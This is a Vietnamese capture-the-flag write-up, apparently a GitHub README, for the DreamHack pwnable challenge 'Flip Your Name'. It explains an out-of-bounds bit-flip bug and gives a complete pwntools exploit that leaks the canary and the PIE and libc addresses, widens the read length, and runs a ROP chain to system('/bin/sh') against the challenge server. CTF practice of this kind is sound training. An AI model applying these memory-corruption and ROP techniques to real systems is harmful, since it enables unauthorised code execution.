





# Flip-Your-Name---Write-up-----DreamHack
Hướng dẫn cách giải bài Flip Your Name cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 11/3/2026

## 1. Mục tiêu cần làm
Vẫn như thường lệ



Tiếp theo là code xem như nào.

```C
unsigned __int64 sub_11E9()
{
  __int64 v1; // [rsp+8h] [rbp-68h] BYREF
  char s[88]; // [rsp+10h] [rbp-60h] BYREF
  unsigned __int64 v3; // [rsp+68h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  do
  {
    memset(s, 0, 0x51uLL);
    printf("name? ");
    read(0, s, nbytes);
    printf("flip your name :) ");
    __isoc99_scanf("%ld", &v1);          // OOB
    s[v1] = ~s[v1];         // Đảo bit
    printf("hello, %s\n", s);
    printf("want to quit? ");
    __isoc99_scanf("%2s", s);
  }
  while ( s[0] != 121 );
  return v3 - __readfsqword(0x28u);
}
```

Ở đây chúng ta có 2 lỗi khá nghiêm trọng đó là **đảo bit** và **OOB**. Đảo bit thì nó sẽ đảo ngược 1 bit lại hoàn toàn, ví dụ `0x00` sẽ thành `0xff`, từ đó ta sẽ biến các byte null thành byte `0xff` để khi `printf("hello, %s\n", s);` nó sẽ in 1 mạch hết tất cả dữ liệu trên stack.

Bài này kết hợp đảo bit với OOB để ta có thể đảo bit ở bất cứ vị trí nào ta muốn. Để in 1 mạch ra thì ta cần đảo các biến null trên stack sau đó ghi đầy đủ hết buf và printf ra là xong.

Giờ tiếp theo là `read(0, s, nbytes);`, `nbytes` là bao nhiêu byte ? Nó là `0x50` byte aka 80. Có thể check trong gdb.





Nhưng hãy nhìn lại 2 lỗi trên. Sẽ ra sao nếu ta đổi 1 byte trước nó thành `0xff` ? Nó sẽ trở thành `0xff50` = 65360, có nghĩa là ta có thể ghi tận 65360 byte. Ok giờ đủ dữ liệu rồi, bắt tay vô làm thôi.

## 2. Cách thực thi
Đầu tiên ta cần xác định các vị trí byte null mà ta cần đảo bit để in 1 mạch ra là vị trí nào.



Các vị trí lần lượt sẽ là 86, 87, 88, 102, 103, 110, 111, 113 -> 120. Sau đó sửa lại ở vị trí 88 để tránh hư canary là được.

```Python
def flip_byte(idx, name=b"A", quit_choice=b"n"):
    p.sendafter(b"name? ", name)
    p.sendlineafter(b"flip your name :) ", str(idx).encode())
    p.recvuntil(b"hello, ")
    leak = p.recvline().strip()
    p.sendlineafter(b"want to quit? ", quit_choice)
    return leak

flip_byte(88)
flip_byte(87)
flip_byte(86)

leak = flip_byte(80, name=b"A" * 80)
canary = u64(b"\x00" + leak[89:96])
log.success(f"Canary: {hex(canary)}")

flip_byte(102)
flip_byte(103)

leak = flip_byte(80, name=b"A" * 80)
rbp_leak = u64(leak[96:102].ljust(8, b"\x00"))
s_addr = rbp_leak - 0x70
log.success(f"Stack (s) addr: {hex(s_addr)}")

pie_leak = u64(leak[104:110].ljust(8, b"\x00"))
pie_base = pie_leak - 0x1345
log.success(f"PIE Leak: {hex(pie_base)}")

flip_byte(110)
flip_byte(111)
for i in range(113, 120):
        flip_byte(i)

leak = flip_byte(80, name=b"A" * 80)
libc_leak = u64(leak[120:126].ljust(8, b"\x00"))
libc_base = libc_leak - 0x29d90
log.success(f"Libc Leak: {hex(libc_base)}")

flip_byte(88)
```

Tiếp theo là ta sẽ đảo bit trước `0x50` để thành `0xff50`. Ta cần tính toán vị trí của nó bằng cách tìm vị trí cần đổi trừ cho vị trí đầu tiên của `s` là được.

```Python
nbytes_addr = pie_base + 0x4010
target_byte = nbytes_addr + 1
v1_offset = target_byte - s_addr
log.info(f"Offset lùi về nbytes: {v1_offset}")

flip_byte(v1_offset)
```

Sau khi có đầy đủ tất cả rồi thì chỉ cần tạo 1 ROPchain thực thi `system(bin/sh)` là xong.

```Python
libc.address = libc_base
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = next(libc.search(b'/bin/sh\x00'))
system = libc.sym['system']
log.success(f"system() at: {hex(system)}")
log.success(f"'/bin/sh' at: {hex(binsh)}")

payload = b'A' * 88
payload += p64(canary)
payload += p64(0)
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

p.sendafter(b"name? ", payload)
p.sendlineafter(b"flip your name :) ", b"0")
p.recvuntil(b"hello, ")
p.sendlineafter(b"want to quit? ", b"y")
```

Vậy là xong, khi thoát bằng **y** thì nó sẽ thực thi chuỗi ROPchain của ta và sẽ bắn flag ra cho chúng ta thôi. Bài này chỉ là 1 bài **OOB** + **BOF** thôi không có gì hết. Hãy cho mình 1 star để có thêm động lực viết tiếp nha 🐧.



## 3. Exploit

```Python
from pwn import *

context.arch = 'amd64'
#p = process('./flipyourname_patched')
p = remote('host3.dreamhack.games', 22769)
libc = ELF('./libc.so.6')

def flip_byte(idx, name=b"A", quit_choice=b"n"):
    p.sendafter(b"name? ", name)
    p.sendlineafter(b"flip your name :) ", str(idx).encode())
    p.recvuntil(b"hello, ")
    leak = p.recvline().strip()
    p.sendlineafter(b"want to quit? ", quit_choice)
    return leak

flip_byte(88)
flip_byte(87)
flip_byte(86)

leak = flip_byte(80, name=b"A" * 80)
canary = u64(b"\x00" + leak[89:96])
log.success(f"Canary: {hex(canary)}")

flip_byte(102)
flip_byte(103)

leak = flip_byte(80, name=b"A" * 80)
rbp_leak = u64(leak[96:102].ljust(8, b"\x00"))
s_addr = rbp_leak - 0x70
log.success(f"Stack (s) addr: {hex(s_addr)}")

pie_leak = u64(leak[104:110].ljust(8, b"\x00"))
pie_base = pie_leak - 0x1345
log.success(f"PIE Leak: {hex(pie_base)}")

flip_byte(110)
flip_byte(111)
for i in range(113, 120):
        flip_byte(i)

leak = flip_byte(80, name=b"A" * 80)
libc_leak = u64(leak[120:126].ljust(8, b"\x00"))
libc_base = libc_leak - 0x29d90
log.success(f"Libc Leak: {hex(libc_base)}")

flip_byte(88)

nbytes_addr = pie_base + 0x4010
target_byte = nbytes_addr + 1
v1_offset = target_byte - s_addr
log.info(f"Offset lùi về nbytes: {v1_offset}")

flip_byte(v1_offset)

libc.address = libc_base
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = next(libc.search(b'/bin/sh\x00'))
system = libc.sym['system']
log.success(f"system() at: {hex(system)}")
log.success(f"'/bin/sh' at: {hex(binsh)}")

payload = b'A' * 88
payload += p64(canary)
payload += p64(0)
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

pause()

p.sendafter(b"name? ", payload)
p.sendlineafter(b"flip your name :) ", b"0")
p.recvuntil(b"hello, ")
p.sendlineafter(b"want to quit? ", b"y")
p.interactive()

p.interactive()
```
